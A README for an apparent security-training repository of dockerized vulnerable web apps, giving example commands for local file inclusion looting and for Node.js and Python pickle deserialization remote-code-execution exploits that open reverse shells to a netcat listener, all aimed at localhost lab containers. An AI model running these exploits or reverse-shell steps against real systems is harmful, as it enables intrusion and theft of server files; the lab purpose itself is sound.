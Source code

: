 # vulnhub

## Description

This project is some dockerized web applications that has any known vurnerability and a example on 
how to exploit them.

## Usage

Start all vurnerable docker containers

```sh
   docker-compose up -d
```

## lfi-php5 

Example on how to exploit this container.\
This command is an example on how to loot serverside files that normally will not be able to browse or download by use a LFI (local file inclusion) 

```sh
lfi-loot.py -f index.php -g file -u http://localhost:8080
``` 

##  nodejs-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./nodejs_deser_rce_nc.py http://localhost:3000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./nodejs_deser_rce.py http://localhost:3000 127.0.0.1 1337
```

##  pypickle-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./pycpickle_deser_rce_nc.py http://localhost:5000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./pypicke_deser_rce.py http://localhost:5000 127.0.0.1 1337
```
